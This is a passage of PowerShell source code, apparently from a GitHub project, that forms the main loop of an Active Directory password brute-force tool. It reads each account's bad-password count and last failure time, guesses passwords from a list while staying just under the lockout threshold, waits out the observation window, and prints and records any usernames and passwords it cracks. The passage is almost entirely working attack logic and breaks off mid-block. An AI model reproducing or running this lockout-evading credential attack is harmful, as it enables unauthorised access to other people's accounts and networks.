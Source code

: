 ```
        For ($i = 0; $i -lt $userObj.Length; $i += 1)
        {

            # Allow for manual stop of the while loop, while retaining the gathered results
            If ($Host.UI.RawUI.KeyAvailable -and ("q" -eq $Host.UI.RawUI.ReadKey("IncludeKeyUp,NoEcho").Character))
            {
                Write-Host "Stopping bruteforce now...." -Background DarkRed
                Break Main
            }

            If ($usersCracked[$i] -eq $false)
            {
                If ($done[$i] -eq $false)
                {
                    # Put object values into variables
                    $samaccountnname = $userObj[$i].Properties.samaccountname
                    $badpwdcount = $userObj[$i].Properties.badpwdcount[0]
                    $badpwdtime = $userObj[$i].Properties.badpasswordtime[0]
                    
                    # Not yet reached lockout tries
                    If ($badpwdcount -lt ($threshold - 1))
                    {
                        # Try the auth with current password
                        $auth = Perform-Authenticate $samaccountnname $passwords[$numTry[$i]]

                        If ($auth -eq $true)
                        {
                            Write-Host "Guessed password for user: '$samaccountnname' = '$($passwords[$numTry[$i]])'" -BackgroundColor DarkGreen
                            $results += $samaccountnname
                            $results += $passwords[$numTry[$i]]
                            $usersCracked[$i] = $true
                            $done[$i] = $true
                        }

                        # Auth try did not work, go to next password in list
                        Else
                        {
                            $numTry[$i] += 1
                            If ($numTry[$i] -eq $passwords.Length) {$done[$i] = $true}
                        }
                    }

                    # One more tries would result in lockout, unless timer has expired, let's see...
                    Else 
                    {
                        $now = Get-Date
                        
                        If ($badpwdtime)
                        {
                            $then = [DateTime]::FromFileTime($badpwdtime)
                            $timediff = ($now - $then).TotalMinutes
                        
                            If ($timediff -gt $duration)
                            {
                                # Since observation window time has passed, another auth try may be performed
                                $auth = Perform-Authenticate $samaccountnname $passwords[$numTry[$i]]
                            
                                If ($auth -eq $true)
```
